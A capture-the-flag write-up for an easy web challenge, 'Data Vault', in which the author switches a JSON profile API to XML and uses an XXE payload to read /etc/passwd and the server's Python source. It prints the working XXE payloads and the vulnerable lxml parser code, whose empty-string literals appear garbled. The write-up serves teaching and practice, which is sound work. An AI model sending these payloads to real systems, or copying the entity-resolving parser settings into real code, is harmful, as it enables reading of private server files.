




# Data Vault

**Description:**

DataVault is a secure JSON-based profile storage API.

Can you find a way to access sensitive server files?

**Category:** Web

**Difficulty:** easy

------------------------------------------------------------------------

## Solution

Browsing to the site reveals a simple profile form where users can
submit a `name` and `bio`. The page states:

> "DataVault provides a simple REST API for profile storage. We accept
> JSON payloads and return structured responses."


While inspecting the page source, I noticed something interesting:

``` html
<div class="api-icons">
    <div class="api-icon json-icon" title="JSON">{ }</div>
    <div class="api-icon xml-icon" title="XML">&lt;/&gt;</div>
    <div class="api-icon secure-icon" title="Secure">🔒</div>
    <div class="api-icon fast-icon" title="Fast">⚡</div>
</div>
```

Although the description mentions JSON, the presence of an XML icon suggested that the API might also support XML.

------------------------------------------------------------------------

### Observing API Behavior

Submitting a test profile:

``` json
{
  "name": "username",
  "bio": "userbio"
}
```

Using Burp Suite to inspect the request and response:

**Response:**

``` json
{
    "received": {
        "bio": "userbio",
        "name": "username"
    },
    "source": "application/json",
    "status": "ok"
}
```

This confirmed the API accepts JSON as expected.

------------------------------------------------------------------------

### Testing for XML Support

Since the source hinted at XML support, I modified the request's
`Content-Type` to `application/xml` and submitted an XML payload.

The server accepted it and responded successfully, confirming XML
parsing was enabled.



This raised the possibility of an **XML External Entity (XXE)**
vulnerability.

------------------------------------------------------------------------

### Exploiting XXE

Using a standard XXE payload:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE profile [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<profile>
  <name>&xxe;</name>
  <bio>userbio</bio>
</profile>
```

**Response:**

``` json
{
  "received": {
    "bio": "userbio",
    "name": "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin..."
  },
  "source": "application/xml",
  "status": "ok"
}
```

The contents of `/etc/passwd` were returned, confirming the application was vulnerable to XXE.

------------------------------------------------------------------------

### Locating the Flag

After additional testing, I targeted the application source code:

``` xml
<!DOCTYPE profile [
  <!ENTITY xxe SYSTEM "file:///app/server.py">
]>
```

Initially, I placed the entity inside the `<name>` field. However, the response appeared truncated and did not return the full contents of the file.

To work around this, I moved the XXE entity into the `<bio>` field instead.

This time, the full contents of server.py were returned.


Reviewing the source code revealed why the earlier attempt was truncated:
```python
from flask import Flask, request, jsonify, render_template
from lxml import etree
    
app = Flask(__name__)

@app.get("/")
def index():
    return render_template("index.html")

@app.post("/api/profile")
def profile():
    ct = (request.content_type or "\").split(";")[0].strip().lower()
    result = {"status": "ok", "source": ct, "received": {}}

    if ct == "application/json":
        try:
            data = request.get_json(force=True, silent=False)
            result["received"] = {
                "name": str(data.get("name", "\"))[:200],
                "bio": str(data.get("bio", "\"))[:500],
            }
            return jsonify(result), 200
        except Exception:
            return jsonify({"status": "error", "message": "Invalid JSON"}), 400

    elif ct == "application/xml" or ct == "text/xml":
        try:
            parser = etree.XMLParser(resolve_entities=True, no_network=False)
            root = etree.fromstring(request.data, parser=parser)
            name_elem = root.find(".//name")
            bio_elem = root.find(".//bio")
            name_text = name_elem.text if name_elem is not None else "\"
            bio_text = bio_elem.text if bio_elem is not None else "\"
            result["received"] = {
                "name": (name_text or "\")[:200],
                "bio": (bio_text or "\")[:20000]
            }
            return jsonify(result), 200
        except Exception:
            return jsonify({"status": "error", "message": "Invalid XML"}), 400

    else:
        return jsonify({"status": "error", "message": "Unsupported content-type"}), 415
```
- `name` is limited to 200 characters
- `bio` is limited to 20,000 characters. 

Since I initially used the `<name>` field, the response was truncated at 200 characters.

Although retrieving server.py helped explain the truncation behavior, it did not contain the flag.

After stepping away and reviewing my notes, I realized that my original `/etc/passwd` attempt had also used the `<name>` field. That meant the output would have been truncated there as well.

I repeated the `/etc/passwd` XXE payload, this time placing the entity inside the `<bio>` field.

This returned the full contents of /etc/passwd, and further down in the file the flag of `flag{XX3_v!a_C0nt3nt_Typ3_Sw1tch}` was revealed.
